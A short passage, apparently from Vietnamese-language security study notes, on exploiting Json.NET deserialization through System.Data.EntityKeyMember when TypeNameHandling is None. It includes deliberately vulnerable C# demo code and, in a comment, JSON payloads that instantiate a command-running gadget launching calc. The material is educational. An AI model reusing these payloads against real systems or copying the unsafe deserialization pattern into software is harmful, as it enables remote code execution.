 * Nếu `TypeNameHandling` có giá trị `None` thì property cần có kiểu dữ liệu `System.Data.EntityKeyMember` hoặc các kiểu dữ liệu kế thừa nó

Demo code:

```C#
using System.IO;
using Newtonsoft.Json;

namespace JsonNs
{
	public class Json
	{
		public Json() {}

		public string id
		{
			get;
			set;
		}

		[JsonProperty(TypeNameHandling = TypeNameHandling.None)]
		public System.Data.EntityKeyMember a;
	}

	public class Go
	{
		public static string Serial(MemoryStream stream)
		{
			Json a = new Json();
			return JsonConvert.SerializeObject(a);
		}

		public static T Deserial<T>(string value) where T : class
		{
			T a = JsonConvert.DeserializeObject<T>(value);
			return a;
		}
	}
}

/*
Arrays | Objects | Auto | All: "{\"$type\":\"JsonNs.Json, test\",\"a\":{\"$type\":\"RCENs.RCE, test\",\"cmd\":\"calc\"},\"id\":\"123\"}"

None: "{\"a\":{\"Key\":\"key\",\"Type\":\"RCENs.RCE, test\",\"Value\":{\"cmd\":\"calc\"}},\"id\":\"123\"}"
*/
```

## Tham khảo

* https://klezvirus.github.io/Advanced-Web-Hacking/Serialisation/

* https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf
